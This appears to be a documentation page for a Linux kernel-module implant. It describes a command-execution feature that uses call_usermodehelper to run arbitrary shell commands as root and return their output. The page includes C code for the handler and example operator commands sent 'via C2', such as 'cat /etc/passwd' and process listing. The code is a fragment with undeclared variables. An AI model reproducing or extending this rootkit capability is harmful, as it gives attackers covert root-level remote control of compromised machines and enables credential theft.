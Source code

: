 ```yaml
---
title: "Command Execution"
description: "Execute system commands with output capture"
icon: "terminal"
date: "2025-05-30T00:00:00+01:00"
lastmod: "2025-05-30T00:00:00+01:00"
draft: false
toc: true
weight: 511
---
```


# Command Execution

Execute system commands in kernel space using `call_usermodehelper` with output capture.

## Implementation

```c
int handle_exec(const char *data)
{
    char *argv[] = { "/bin/sh", "-c", NULL, NULL };
    char *envp[] = { 
        "HOME=/", 
        "PATH=/sbin:/bin:/usr/bin:/usr/local/bin", 
        "TERM=linux",
        NULL 
    };
    
    // Redirect output to temp file
    snprintf(full_command, strlen(data) + strlen(temp_filename) + 32,
             "%s > %s 2>&1", data, temp_filename);
    
    argv[2] = full_command;
    
    // Execute command
    ret = call_usermodehelper(argv[0], argv, envp, UMH_WAIT_PROC);
    
    // Read output and send back
    return send_result(result_buffer);
}
```

Uses shell execution with output redirection to temporary files for result capture.

## Testing

```bash
# Example commands via C2
exec ls -la /tmp
exec whoami
exec ps aux | grep root
exec cat /etc/passwd
```

## Output Format

```
Exit code: 0
Output:
[command output here]
```

All commands are executed as root with full system privileges.